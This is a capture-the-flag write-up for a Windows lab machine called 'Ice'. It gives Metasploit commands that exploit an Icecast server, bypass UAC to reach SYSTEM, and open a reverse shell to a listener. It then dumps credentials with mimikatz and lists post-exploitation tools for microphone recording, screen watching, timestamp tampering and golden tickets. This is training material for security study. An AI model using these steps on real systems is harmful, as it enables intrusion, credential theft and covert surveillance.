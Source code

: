 # [cd ../](../index.md)
# Ice
> Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

# Start
## Scanning
### Nmap
[nmaps](nmaps.txt)  
There is an interesting port open on 3389. This is Microsoft Remote Desktop (MSRDP).
And an other on 8000 (Icecast).  
And we found one [exploit](https://www.cvedetails.com/cve/CVE-2004-1561/) that we have to use.

## Exploiting
- Open Metasploit
- Select the correct exploit
- Use it :D

```
msfconsole
search icecast
use exploit/windows/http/icecast_header
set RHOSTS 10.10.194.155
exploit
```
- We got a `meterpreter` shell
- We are user:`dark`

## Escalate privileges
- We are on an `x86` system
- Just run an exploit suggester like a *1337 ScR1P7 K1DD0*

```
run post/multi/recon/local_exploit_suggester
```

This takes some time to run so go for a snack :D  
Finally we got some exploits!  
![exploits](exploits.png)
- We need `exploit/windows/local/bypassuac_eventvwr`
- Now background the meterpreter shell with `background` command
- Select the exploit and set it up

```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set LHOST 10.8.22.204
set LPORT 1337
exploit
```
- It could fail some times so just retry xd  
![session2](session2.png)  
- Migrate to an x64 process ( `spoolsv.exe` )

```
ps
migrate 1392
```
![migrated](migrated.png)  
- If we check `getuid` we are `NT AUTHORITY\SYSTEM` now!!  
W3 4r3 4dM1N5 N0W

## Mimikatz etc
```
load kiwi
```
Kiwi is the updated mimikatz.  
If we hit `help` we can see some new `Kiwi Commands`!
```
creds_all
```
![creds](creds.png)  
Dark's password is `Password01!`  

## Post exploitation
`hashdump` - dumps all of the password hashes  
`screenshare` - allows us to watch the remote user's desktop in real time  
`record_mic` - record from a microphone attached to the system  
`timestomp` - modify timestamps of files on the system  
`golden_ticket_create` - allowing us to authenticate anywhere with ease  
`run post/windows/manage/enable_rdp` - As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP)  
